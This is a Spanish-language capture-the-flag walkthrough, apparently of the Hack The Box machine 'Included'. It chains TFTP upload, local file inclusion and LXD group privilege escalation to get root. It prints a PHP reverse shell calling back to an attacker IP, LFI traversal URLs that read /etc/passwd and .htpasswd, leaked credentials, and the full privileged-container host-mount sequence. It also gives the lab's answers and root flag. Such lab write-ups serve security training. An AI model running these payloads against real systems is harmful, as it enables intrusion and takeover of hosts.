------
- Tags: #PHP #CustomApplications #protocols #apache #TFTP #LXD #Reconnaisance #LocalFileInclusion #cleartextcredentials #ArbitraryFileUpload 
-------



## 🌐 Información general

- **IP objetivo**: `10.129.95.185`
    
- **Nivel**: Muy Fácil
    
- **Etiquetas**: PHP, Apache, TFTP, LFI, LXD, Reconocimiento, Credenciales en texto claro, Subida arbitraria de archivos


## ✅ Tarea 1: ¿Qué servicio está corriendo en la máquina objetivo sobre UDP?

🌠 **Respuesta**: `tftp`

### 🔎 Escaneo UDP

Se realiza un escaneo de los 100 puertos UDP más comunes usando Nmap con el siguiente comando:

```bash
sudo nmap -sU -sV --top-ports 100 10.129.95.185
```



- `-sU`: escaneo UDP.
    
- `-sV`: detección de versiones.
    
- `--top-ports 100`: escaneo de los 100 puertos UDP más frecuentes según estadísticas de Nmap.

📋 Resultado:

```bash
69/udp open  tftp  Netkit tftpd or atftpd
```

Esto revela que **el puerto 69/UDP está abierto** y ejecuta un servicio **TFTP** (Trivial File Transfer Protocol), una implementación típica de `atftpd` o `netkit-tftpd`.

### 📌 ¿Qué es TFTP?

> **TFTP (Trivial File Transfer Protocol)** es un protocolo de transferencia de archivos extremadamente básico, sin autenticación y basado en UDP. Se utiliza comúnmente para tareas como:
> 
> - Transferencia de firmware.
>     
> - Boot remoto PXE.
>     
> - Backups automáticos de dispositivos de red.
>     
> 
> Al no requerir credenciales, es un vector común de ataque si está mal configurado.


## 🧩 Tarea 2 – ¿A qué clase de vulnerabilidad es vulnerable la página web alojada en el puerto 80?

📌 **Respuesta**: `Local File Inclusion`

### 🧪 Justificación:

Al acceder a la web del objetivo (`http://10.129.95.185/`), se redirige o carga directamente una URL con un parámetro como:

```bash
http://10.129.95.185/?file=home.php
```



Esto indica que el servidor probablemente esté usando una instrucción PHP similar a:

```bash
include($_GET['file']);
```

Si el input no está filtrado correctamente (por ejemplo, sin limitar a solo nombres de archivo permitidos o sin comprobar que solo se incluyen rutas relativas seguras), se puede intentar cargar archivos arbitrarios del sistema mediante una ruta como:

```bash
http://10.129.95.185/?file=../../../../etc/passwd
```



Este tipo de vulnerabilidad se conoce como **LFI** (_Local File Inclusion_), ya que se puede incluir (y leer) archivos locales del sistema.

### ⚠️ Riesgo:

- Si consigues leer `/etc/passwd`, `/var/log/apache2/access.log` o archivos `.ssh`, puedes escalar privilegios.
    
- Si el sistema también permite escribir o subir archivos, podrías incluir código malicioso y ejecutar comandos (_RCE_).


## 📁 Tarea 3 – ¿Cuál es la carpeta por defecto del sistema que TFTP usa para almacenar archivos?

📌 **Respuesta correcta**: `/var/lib/tftpboot/`

### 🧪 Justificación técnica:

Aunque algunas implementaciones antiguas de TFTP usaban `/srv/tftp` o incluso `/tftpboot`, la configuración **por defecto en la mayoría de distribuciones modernas con el paquete `tftpd-hpa` es**:

```bash
/var/lib/tftpboot
```

Este directorio está especificado en el archivo de configuración:

```bash
/etc/default/tftpd-hpa
```

Con una línea como esta:

```bash
TFTP_DIRECTORY="/var/lib/tftpboot"
```

Pero en nuestro caso, **esa ruta no existe**, lo que significa que probablemente **no está instalado el servidor `tftpd-hpa`**.

### 📦 Motivo de su uso:

- Está dentro de `/var/lib`, que es el lugar típico para datos persistentes usados por servicios.
    
- El nombre `tftpboot` hace referencia a su uso original en arranque PXE.


### 📦 Instalación del cliente TFTP

```bash
sudo apt install tftp
```



Una vez instalado, puedes probar de nuevo:

```bash
tftp 10.129.95.185
```

---
### 📌 ¿Para qué sirve esto?

Con el cliente TFTP puedes:

- Listar archivos (si el servidor lo permite)
    
- Descargar archivos: `get nombre_archivo`
    
- Subir archivos (si el servidor tiene permisos): `put archivo`
    

El TFTP es un protocolo simple, sin autenticación, por lo que si el servidor está mal configurado, puedes **leer archivos arbitrarios** o **subir archivos maliciosos**, lo que es clave para **LFI con ejecución remota** o escaladas posteriores.


## 🔐 Tarea 4 – ¿Qué archivo interesante se encuentra en la carpeta del servidor web y puede usarse para movimiento lateral?**

📌 **Respuesta correcta**: `.htpasswd

### 🧠 ¿Qué es `.htpasswd`?

`.htpasswd` es un archivo que se usa en combinación con `.htaccess` para **autenticación HTTP básica** en servidores Apache. Contiene **usuarios y contraseñas cifradas** (hashes).

- Se utiliza para proteger directorios o recursos en servidores web.
    
- Se puede generar con el comando `htpasswd` (por ejemplo, `htpasswd -c .htpasswd usuario`).
    
- Los hashes suelen ser en formato MD5, SHA-1 o bcrypt.

### 🔍 ¿Por qué es útil para el **movimiento lateral**?

Porque al encontrar este archivo puedes:

1. **Extraer el hash de la contraseña**.
    
2. **Romperla con John the Ripper o Hashcat**.
    
3. Usar las credenciales obtenidas para:
    
    - Acceder a otras rutas del sitio web.
        
    - Probar login por SSH, FTP, etc.
        
    - Elevar privilegios o pivotar a otros usuarios.


## 🧪 Cómo buscar el archivo `.htpasswd`

### 🔧 Paso 1: Comprobar si hay **vulnerabilidad LFI**

La URL actual es:

```bash
http://10.129.95.185/?file=home.php
```

Prueba cargando otros archivos sensibles:

```bash
http://10.129.95.185/?file=/etc/passwd
http://10.129.95.185/?file=../../../../etc/passwd
http://10.129.95.185/?file=../../../../var/www/html/.htpasswd
```

### 🔎 Ubicación descubierta:

Has encontrado el archivo accediendo vía **LFI (Local File Inclusion)** con:



Y el contenido fue:

```bash
mike:Sheffield19
```


## 🧩 Tarea 5 – Grupo de Mike y escalada de privilegios

**🧪 Pregunta:**  
¿A qué grupo pertenece el usuario Mike que puede ser explotado para escalar privilegios?

### 🔍 Contexto

Aunque conseguimos credenciales (`mike:Sheffield19`) mediante LFI desde `.htpasswd`, **el acceso inicial al sistema se obtuvo como `www-data` usando una reverse shell PHP subida por TFTP** y ejecutada vía inclusión remota.

## 🧠 Shell reversa por TFTP + LFI (Local File Inclusion)

### 🎯 Objetivo

Conseguir una shell reversa en la máquina víctima sin acceso por SSH, usando una combinación de vulnerabilidad **LFI (Local File Inclusion)** y un servidor **TFTP** accesible.

🧩 ¿Por qué no funcionaba SSH?

```bash
ssh mike@10.129.9.86
# Resultado: port 22: Connection refused
```

🔐 El puerto 22 (SSH) está cerrado. No podemos acceder directamente como el usuario `mike`, aunque ya tengamos sus credenciales (`mike:Sheffield19` obtenidas desde `.htpasswd`).


### 🧨 La vulnerabilidad encontrada

Se detectó que la URL aceptaba como parámetro una ruta de archivo:

```bash
http://10.129.9.86/?file=home.php
```

Esto indica que hay una **vulnerabilidad LFI**. Se puede intentar incluir archivos arbitrarios del sistema, como:

```bash
http://10.129.9.86/?file=../../../../etc/passwd
```

### 🔄 Plan de ataque: LFI + TFTP + Reverse Shell

Ya que el sistema usa **TFTP** (puerto 69/UDP), podemos subir archivos sin autenticación y después forzar al servidor web a incluirlos vía LFI.

## 🛠️ Pasos ejecutados

### 1. 📄 Crear un archivo con reverse shell en PHP

```bash
<?php
$sock=fsockopen("10.10.14.159",1337);
exec("/bin/sh -i <&3 >&3 2>&3");
?>
```

➡️ O bien, usar el payload completo de **PentestMonkey** como hiciste, que incluye manejo de errores, timeouts, etc.

Guardarlo como: `shell2.php`



### 2. 🚀 Subir el archivo con TFTP

```bash
tftp 10.129.9.86
tftp> put shell2.php
```



🟢 Esto funciona porque TFTP no requiere credenciales y el directorio por defecto en muchos sistemas es `/var/lib/tftpboot`.

### 3. 🖥️ Escuchar con netcat en tu máquina

```bash
nc -lvnp 1337
```

### 4. 📡 Activar el payload vía LFI

```bash
curl 'http://10.129.9.86/?file=/var/lib/tftpboot/shell2.php'
```



Esto **incluye** el archivo PHP remoto y ejecuta el código del reverse shell.


### ✅ Resultado

Conexión entrante recibida:

```bash
Connection received on 10.129.9.86
uid=33(www-data) gid=33(www-data)...
```



¡Hemos accedido como `www-data` al sistema!

## 📚 Explicación técnica

- **LFI** permite incluir y ejecutar archivos PHP locales.
    
- **TFTP** permite subir archivos fácilmente al servidor.
    
- La ruta por defecto de TFTP (`/var/lib/tftpboot`) fue accesible y ejecutable por Apache.
    
- El archivo PHP fue interpretado por el servidor cuando se incluyó vía `?file=`.
    
- La shell se conecta a tu máquina por el puerto 1337, donde estás escuchando con `netcat`.


#### ✅ 5 Escalada de privilegios a Mike

Desde la shell inicial (como `www-data`), mejoramos la TTY:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```



Y luego usamos `su mike` con la contraseña `Sheffield19` para cambiar de usuario:

```bash
su mike
Password: Sheffield19
```

#### 6: Confirmar grupo y privilegios

Ya como el usuario **Mike**, verificamos su pertenencia a grupos:

```bash
id
```

Resultado:

```bash
uid=1001(mike) gid=1001(mike) groups=1001(mike), 1002(lxd)
```



El grupo `lxd` (Linux Containers) permite acceder a contenedores y puede explotarse para **escalada a root**, montando imágenes de host.

### ✅ Respuesta final:



### 📌 Notas para Obsidian

- Puedes usar `search:group=lxd` para buscar otras técnicas similares.
    
- El vector de escalada con LXD puede automatizarse con `lxd-alpine-builder.sh`.

## 🔹 Tarea 6 – Distribución ligera para contenedores

**❓ Pregunta:**

> Cuando usamos una imagen para explotar un sistema mediante contenedores, buscamos una distribución muy ligera. Nuestra favorita para esta tarea está nombrada en honor a unas montañas. ¿Cuál es el nombre de esa distribución?

**💡 Pista:**

> Distribución de Linux ligera basada en BusyBox.

### 📘 Explicación técnica

Cuando se explota una máquina mediante contenedores (por ejemplo, usando `lxd`), uno de los vectores más comunes es **importar una imagen preparada** y montar el sistema de archivos del host desde allí. Para eso se busca una distribución que tenga:

- Tamaño reducido ✅
    
- Compatibilidad con BusyBox ✅
    
- Gran soporte para contenedores ✅
    
- Tiempo de carga rápido ✅


### 🏔️ Alpine Linux

> **Alpine Linux** es la respuesta correcta.  
> Es una distribución basada en **BusyBox** y `musl libc`, diseñada específicamente para ser:

- 🪶 Ligera (alrededor de 5 MB)
    
- 🔐 Segura (diseñada con hardening por defecto)
    
- 🚀 Rápida de importar y ejecutar en contenedores LXD o Docker


### 🔍 Cómo se deduce

Podrías encontrar la respuesta de las siguientes formas:

- ✅ Buscando en Google:  
    `lightweight linux distribution based on busybox` → [Alpine Linux](https://alpinelinux.org/)
    
- ✅ Analizando scripts públicos de escalada con LXD:

```bash
lxc image import ./alpine-v3.12-x86_64-20201023_2020.tar.gz --alias alpine
```

✅ Viendo documentación de herramientas como:

- `lxd-alpine-builder.sh`
    
- Exploits con `lxd` en GTFOBins


## 🧩 Tarea 7: Bandera para conceder privilegios root al contenedor

**❓ Pregunta (traducida):**

> ¿Qué parámetro debemos establecer en el contenedor para que tenga privilegios de root sobre el sistema host?

**✅ Respuesta:**

```bash
security.privileged=true
```


### 🧠 Explicación técnica.

#### 🛠️ ¿Qué significa `security.privileged=true`?

Este parámetro se usa en **contenedores gestionados con LXD** para otorgarles acceso completo al **sistema del host**, **como si fueran root**.  
Es decir, el contenedor no tiene aislamiento y puede acceder directamente al kernel del host o incluso montar sistemas de archivos host.

- En sistemas LXD (Linux Containers), los contenedores están muy aislados.
    
- Pero si añadimos `security.privileged=true` en la configuración del contenedor, **se elimina parte de ese aislamiento**.
    
- Esto permite, por ejemplo, **montar la raíz `/` del sistema host** dentro del contenedor, accediendo a todo como root.

### 🧪 ¿Dónde se configura?

Cuando se crea un contenedor en LXD, puedes establecer esta opción así:

```bash
lxc init alpine exploit -c security.privileged=true
```

Aquí:

- `alpine` → es la imagen base (ligera y rápida).
    
- `exploit` → nombre del contenedor.
    
- `-c security.privileged=true` → la bandera que le otorga **privilegios root sobre el host**.
    

🔒 **⚠️ Peligroso:** Esto rompe el aislamiento por diseño de los contenedores.


### 📚 ¿Cómo lo descubrimos?

Esta bandera es ampliamente utilizada en escenarios de **escalada de privilegios** cuando el usuario pertenece al grupo `lxd`.

> Puedes encontrarla documentada en:
> 
> - La documentación oficial de LXD
>     
> - Cheatsheets de HackTricks y GTFOBins
>     
> - Máquinas de HTB como _Included_, donde el usuario `mike` pertenecía al grupo `lxd`.


## 🧪 Proceso resumido de explotación:

```bash
# 1. Crear el contenedor con privilegios
lxc init alpine exploit -c security.privileged=true

# 2. Montar la raíz del sistema host dentro del contenedor
lxc config device add exploit rootdisk disk source=/ path=/mnt/root

# 3. Iniciar el contenedor
lxc start exploit

# 4. Acceder al contenedor
lxc exec exploit /bin/sh

# 5. Acceder al sistema del host
cd /mnt/root
ls
```

### 🔐 Flag de Usuario

**📍 Ubicación esperada:**  
Las flags de usuario en Hack The Box suelen estar dentro del directorio personal del usuario comprometido, por ejemplo:

```bash
/home/mike/user.txt
```

**📦 Proceso:**

1. Estando como `www-data`, conseguimos cambiar a Mike usando:

```bash
su mike
# contraseña: Sheffield19
```

Una vez dentro, vamos a su carpeta personal:.

```bash
cd /home/mike
```

Listamos los archivos:

```bash
cat user.txt
```

📥 **Flag obtenida:**




## 🐧 LXD Privilege Escalation - Alpine Image sin conexión

### 📁 Contexto

En este caso, necesitábamos una imagen de Alpine para explotarla a través de `lxd`. Al no contar con acceso a internet directo desde la máquina víctima, se ha optado por preparar manualmente los archivos `incus.tar.xz` y `rootfs.squashfs`, sirviéndolos desde un servidor Python HTTP.

Nos basamos en el método descrito en HackTricks: LXD Privilege Escalation; https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation.html

### 🔧 Preparación de los archivos en nuestra máquina:

Haremos los siguientes pasos desde nuestra máquina (siempre, desconectándonos de la VPN de HTB)

```bash
```bash
# Install requirements
sudo apt update
sudo apt install -y golang-go gcc debootstrap rsync gpg squashfs-tools git make build-essential libwin-hivex-perl wimtools genisoimage    

# Clone repo
mkdir -p $HOME/go/src/github.com/lxc/
cd $HOME/go/src/github.com/lxc/
git clone https://github.com/lxc/distrobuilder

# Make distrobuilder
cd ./distrobuilder
make

# Prepare the creation of alpine
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml

# Create the container - Beware of architecture while compiling locally.
sudo $HOME/go/bin/distrobuilder build-incus alpine.yaml -o image.release=3.18 -o image.architecture=x86_64
```

Nos montaremos un servidor Python, en la misma ubicación en la que tenemos los archivos:  **incus.tar.xz** y **rootfs.squashfs**



#### 📥 Descarga de los archivos desde la máquina víctima

```bash
# Desde la máquina víctima (usuario mike)
cd /               # Importante: Estar en un directorio con permisos adecuados
```

```bash
# Descargar incus.tar.xz desde el servidor Python
wget http://10.10.14.159:4444/incus.tar.xz
```

```bash
# Descargar rootfs.squashfs desde el mismo servidor
wget http://10.10.14.159:4444/rootfs.squashfs
```



💡 _Nota:_ Si estás en un directorio sin permisos (como `/tmp` en algunas configuraciones), puedes recibir errores 404 o “No such file”.

### ✅ Resultado

- Archivos `incus.tar.xz` y `rootfs.squashfs` descargados correctamente en la máquina víctima.
    
- Listos para ser añadidos al repositorio LXD e iniciar la explotación mediante contenedor.

### 🚀 LXD Privilege Escalation — Importar y montar contenedor

📦 Importar la imagen Alpine personalizada

```bash
lxc image import incus.tar.xz rootfs.squashfs --alias alpine
```



✅ _Esto importa la imagen con el alias `alpine`._

🔍 Verificar que se importó bien

```bash
lxc image list
```



🧱 Crear contenedor privilegiado

```bash
lxc init alpine privesc -c security.privileged=true
```



→ Crea un contenedor llamado `privesc` con privilegios elevados.

📜 Verificar contenedores existentes

```bash
lxc list
```



🗂️ Montar el sistema del host en el contenedor

```bash
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

Esto añade como volumen compartido el **root (`/`) del host** al contenedor, montado dentro de `/mnt/root`.

📌 **Resultado**:



### ⚠️ Problema común: No storage pool found

Si aparece este error:

```bash
Error: No storage pool found. Please create a new storage pool
```

Solución: Ejecuta `lxd init` y acepta los valores por defecto. Luego repite los pasos anteriores


## 🔓 Escalada de privilegios final

### 🚀 Ejecutar el contenedor

```bash
lxc start privesc
```



#### 👑 Acceder como root al contenedor

```bash
lxc exec privesc /bin/sh
```



Ya estás dentro del contenedor **como root**.

#### 📁 Navegar al sistema del host montado

```bash
cd /mnt/root
```



Aquí ya estás accediendo al sistema de archivos real. Navega hasta `/root`:

```bash
cd /root
```



✅ Flag encontrada:  
`c693d9c7499d9f572ee375d4c14c7bcf`


## 📚 Conclusión y análisis

Esta técnica es **muy poderosa** cuando tienes un usuario en el grupo `lxd`. Permite montar cualquier parte del sistema real en un contenedor controlado, accediendo como root si el contenedor es `privileged`.

**Recomendaciones de seguridad**:

- 🔒 Nunca dejes usuarios en el grupo `lxd` sin control.
    
- ⚠️ Asegúrate de que LXD esté correctamente configurado y limitado.
    
- 🧱 Si puedes, desactiva contenedores privilegiados.